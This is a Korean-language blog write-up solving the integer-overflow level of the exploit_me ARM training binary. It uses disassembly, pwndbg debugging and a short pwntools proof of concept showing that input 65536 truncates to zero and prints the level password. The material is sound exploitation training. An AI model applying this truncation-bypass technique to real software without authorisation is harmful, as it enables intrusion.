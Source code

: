 ```yaml
---
title: "[pwnable] ARM exploit 정리 - Integer Overflow"
excerpt: "exploit_me"

categories:
  - pwn
tags:
  - [pwnable, exploit]

permalink: /pwn/exploit_me/

toc: true
toc_sticky: true

date: 2024-12-18
last_modified_at: 2024-12-18
---
```


github에 arm exploit을 정리하기에 좋은 예제가 있어서 이를 이용해서 정리해보고자 합니다.

👉🏻 [exploit_me](https://github.com/bkerler/exploit_me.git)

m1 mac에서 진행하지만 pwnable 환경 자체가 linux x64 환경이기 때문에 qemu를 이용하여 진행하였습니다.

👉🏻 [qemu 정리](https://parkhoho.github.io/pwn/qemu/)

## ☝🏻 정수 오버플로우
main을 disassemble해보면 int_overflow 함수를 찾을 수 있다.

이 함수가 level2 password의 힌트다.
> 참고로 level1 password의 경우 바이너리를 실행시키면 찾을 수 있다.

```
qemu-aarch64-static -L /usr/aarch64-linux-gnu/ -g 8888 ./exploit64 hello 11111
```

11111이라는 값을 줬고, 이 11111을 어떻게 처리하는지 살펴보자.



```asm
0x0000000000401490 <+0>:	stp	x29, x30, [sp, #-48]!
0x0000000000401494 <+4>:	mov	x29, sp
0x0000000000401498 <+8>:	str	x0, [sp, #24]
0x000000000040149c <+12>:	ldr	x0, [sp, #24]
0x00000000004014a0 <+16>:	bl	0x4171b8 <atoi>
0x00000000004014a4 <+20>:	str	w0, [sp, #44]
0x00000000004014a8 <+24>:	ldr	w0, [sp, #44]
0x00000000004014ac <+28>:	str	w0, [sp, #40]
0x00000000004014b0 <+32>:	ldr	w0, [sp, #40]
0x00000000004014b4 <+36>:	cmp	w0, #0x0
0x00000000004014b8 <+40>:	b.ne	0x4014d0 <_Z12int_overflowPc+64>  // b.any
0x00000000004014bc <+44>:	adrp	x0, 0x470000 <_nl_archive_subfreeres+104>
0x00000000004014c0 <+48>:	add	x0, x0, #0x7e8
0x00000000004014c4 <+52>:	bl	0x425e30 <puts>
0x00000000004014c8 <+56>:	mov	w0, #0x0                   	// #0
0x00000000004014cc <+60>:	bl	0x417b30 <exit>
0x00000000004014d0 <+64>:	ldr	w0, [sp, #44]
0x00000000004014d4 <+68>:	strh	w0, [sp, #38]
0x00000000004014d8 <+72>:	ldrh	w0, [sp, #38]
0x00000000004014dc <+76>:	cmp	w0, #0x0
0x00000000004014e0 <+80>:	b.eq	0x401500 <_Z12int_overflowPc+112>  // b.none
0x00000000004014e4 <+84>:	ldrh	w0, [sp, #38]
0x00000000004014e8 <+88>:	mov	w1, w0
0x00000000004014ec <+92>:	adrp	x0, 0x470000 <_nl_archive_subfreeres+104>
```


int_overflow의 disassemble한 코드다.

1. `stp x29,x30,[sp,#-48]!` `mov x29,sp`를 통해 스택 정리
2. `str x0,[sp,#24]`,`ldr x0,[sp,#24]`를 통해 값을 가져온다.
3. atoi를 이용하여 값을 읽음
4. 이 값을 0과 비교하여 같지 않으면 첫번째 branch를 통가하게 된다.(같으면 exit)
5. 이후 다시 재배열한 값을 가져와서 0과 같으면 jmp 한다.(0과 같지 않으면 exit)
6. 즉, 입력한 값이 0이거나 0보다 작아야 한다.


이때 11111를 통해 내부에서 어떤 결과가 나오는지 확인해보자.


```bash
b *int_overflow
c
```

이때 나오는 결과는 아래와 같다.

```assembly
  0x401490 <int_overflow(char*)>       stp    x29, x30, [sp, #-0x30]!       <main+224>
  0x401494 <int_overflow(char*)+4>     mov    x29, sp
  0x401498 <int_overflow(char*)+8>     str    x0, [sp, #0x18]
  0x40149c <int_overflow(char*)+12>    ldr    x0, [sp, #0x18]
  0x4014a0 <int_overflow(char*)+16>    bl     #atoi                     <atoi>

  0x4014a4 <int_overflow(char*)+20>    str    w0, [sp, #0x2c]
  0x4014a8 <int_overflow(char*)+24>    ldr    w0, [sp, #0x2c]
  0x4014ac <int_overflow(char*)+28>    str    w0, [sp, #0x28]
  0x4014b0 <int_overflow(char*)+32>    ldr    w0, [sp, #0x28]
  0x4014b4 <int_overflow(char*)+36>    cmp    w0, #0
  0x4014b8 <int_overflow(char*)+40>    b.ne   #int_overflow(char*)+64                     <int_overflow(char*)+64>
  ...
```


이때 아까 설명한 조건들을 우회하기 위해 breakpoint를 다음과 같이 준다.
```
b *int_overflow+40
b *int_overflow+80
b *int_overflow+120
```


continue 한 후에 w0의 값을 확인해보자.

```bash
c
```

```bash
pwndbg> info r w0
w0             0x2b67              11111
```


즉 w0에는 11111의 hex값인 0x2b67이 들어가 있다.


따라서 w0이 0보다 크기 때문에 jmp를 하게 된다.

다음 조건으로는 그 값을 다시 가져와 0과 비교를 하게 된다.


이때 w0은 아까와 마찬가지로 0x2b67이 들어가있기 때문에 jmp를 하지 못한다.


따라서 다음과 같이 printf()와 exit를 만나 프로그램이 종료가 된다.

```assembly
0x4014e4 <int_overflow(char*)+84>     ldrh   w0, [sp, #0x26]
 ► 0x4014e8 <int_overflow(char*)+88>     mov    w1, w0
   0x4014ec <int_overflow(char*)+92>     adrp   x0, #_nl_archive_subfreeres+104 <0x470000>
   0x4014f0 <int_overflow(char*)+96>     add    x0, x0, #0x810
   0x4014f4 <int_overflow(char*)+100>    bl     #printf                     <printf>

   0x4014f8 <int_overflow(char*)+104>    mov    w0, #0
   0x4014fc <int_overflow(char*)+108>    bl     #exit                     <exit>
```

즉, 원하는 값을 얻기 위해서는 w0에 0을 넣어야 한다.
하지만 입력값에 0을 넣게 되면 password를 얻지 못하기 때문에 다른 방식을 사용해야 한다.

## 해결방법
다음은 int_overflow의 동작과정 중 하나이다.

이때 `strh`와 `ldrh` 명령어를 통해 w0에 특정 값을 저장하고 있는 것을 확인할 수 있다.

```assembly
0x4014d0 <int_overflow(char*)+64>    ldr    w0, [sp, #0x2c]
0x4014d4 <int_overflow(char*)+68>    strh   w0, [sp, #0x26]
0x4014d8 <int_overflow(char*)+72>    ldrh   w0, [sp, #0x26]
► 0x4014dc <int_overflow(char*)+76>    cmp    w0, #0
0x4014e0 <int_overflow(char*)+80>    b.eq   #int_overflow(char*)+112                     <int_overflow(char*)+112>
```

`strh`과 `ldrh`는 halfword 크기만큼을 저장하고 로드하는 명령어다.

👉🏻 [참고](https://developer.arm.com/documentation/ddi0406/c/Application-Level-Architecture/Instruction-Details/Alphabetical-list-of-instructions/LDRH--immediate--Thumb-?lang=en)


그렇기에 2^16 값을 넣게 된다면 0이 저장되게 된다.


다음은 2^16을 입력으로 하여 바이너리를 분석한 결과다.

```
pwndbg> b *int_overflow+80
```

```
0x4014cc <int_overflow(char*)+60>     bl     #exit                     <exit>

   0x4014d0 <int_overflow(char*)+64>     ldr    w0, [sp, #0x2c]
   0x4014d4 <int_overflow(char*)+68>     strh   w0, [sp, #0x26]
   0x4014d8 <int_overflow(char*)+72>     ldrh   w0, [sp, #0x26]
   0x4014dc <int_overflow(char*)+76>     cmp    w0, #0
 ► 0x4014e0 <int_overflow(char*)+80>     b.eq   #int_overflow(char*)+112                     <int_overflow(char*)+112>
    ↓
   0x401500 <int_overflow(char*)+112>    ldr    w0, [sp, #0x2c]
   0x401504 <int_overflow(char*)+116>    cmp    w0, #0
   0x401508 <int_overflow(char*)+120>    b.lt   #int_overflow(char*)+136                     <int_overflow(char*)+136>

   0x40150c <int_overflow(char*)+124>    ldrh   w0, [sp, #0x26]
   0x401510 <int_overflow(char*)+128>    cmp    w0, #0
```

```bash
pwndbg> info r w0
w0             0x0                 0
```

## PoC
Expoit Code를 제작해보자.
```python
~
"exploit.py" 15L, 317B                                        7,0-1         All
from pwn import *

def lv1():
    args_lv1 = "65536"
    p = process(['./exploit64', 'hello', args_lv1])
    print(p.recvline())

if __name__ == "__main__":
    lv1()
```
```bash
hoho@hoho:~/exploit_me/bin$ python3 ./exploit.py
[*] Checking for new versions of pwntools
    To disable this functionality, set the contents of /home/hoho/.cache/.pwntools-cache-3.12/update to 'never' (old way).
    Or add the following lines to ~/.pwn.conf or ~/.config/pwn.conf (or /etc/pwn.conf system-wide):
        [update]
        interval=never
[*] You have the latest version of Pwntools (4.13.1)
[+] Starting local process './exploit64': pid 1515
b'Level 2 Password: "help"\n'
[*] Stopped process './exploit64' (pid 1515)
```

위와 같이 Level 2 Password를 확인할 수 있다.
